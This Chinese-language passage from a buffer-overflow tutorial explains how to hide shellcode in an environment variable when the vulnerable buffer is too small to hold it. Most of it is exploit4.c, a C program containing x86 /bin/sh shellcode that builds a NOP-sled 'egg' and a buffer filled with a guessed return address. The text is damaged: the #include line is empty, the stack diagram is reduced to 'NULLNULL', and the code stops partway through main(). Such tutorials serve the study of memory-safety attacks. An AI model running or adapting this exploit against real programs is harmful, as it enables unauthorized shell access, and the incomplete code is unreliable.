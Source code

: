 有时候想使其溢出的缓冲区太小了, 以至于shellcode都放不进去, 这样返回地址就会被指令所覆盖, 而不是我们所推测的地址, 或者shellcode是放进去了, 但是没法填充足够多的NOP指令, 这样推测地址的成功率就很低了. 要从这样的程序(小缓冲区)里得到一个shell, 我们必须得想其他办法. 下面介绍的这种方法只在能够访问程序的环境变量时有效.

我们所做的就是把shellcode放到环境变量中去, 然后用这个变量在内存中的地址来使缓冲区溢出. 这种方法同时也提高了破解工作的成功率, 因为保存shellcode的环境变量想要多大就有多大.

当程序开始时, 环境变量存储在堆栈的顶部, 任何使用`setenv()`的修改动作会在其他地方重新分配空间. 开始时的堆栈如下所示:

```
NULLNULL
```

我们新的程序会使用一个额外的变量, 变量的大小能够容纳shellcode和NOP指令,新的破解程序如下所示:

exploit4.c

```
#include

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_EGG_SIZE 2048
#define NOP 0x90

char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) {
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
    char *buff, *ptr, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, eggsize=DEFAULT_EGG_SIZE;

    if (argc > 1) bsize = atoi(argv[1]);
    if (argc > 2) offset = atoi(argv[2]);
    if (argc > 3) eggsize = atoi(argv[3]);

    if (!(buff = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_esp() - offset;
    printf("Using address: 0x%x\n", addr);

    ptr = buff;
    addr_ptr = (long *) ptr;
    for (i = 0; i < bsize; i+=4)
        *(addr_ptr++) = addr;

    ptr = egg;
    for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
        *(ptr++) = NOP;

    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    buff[bsize - 1] = '\0';
```
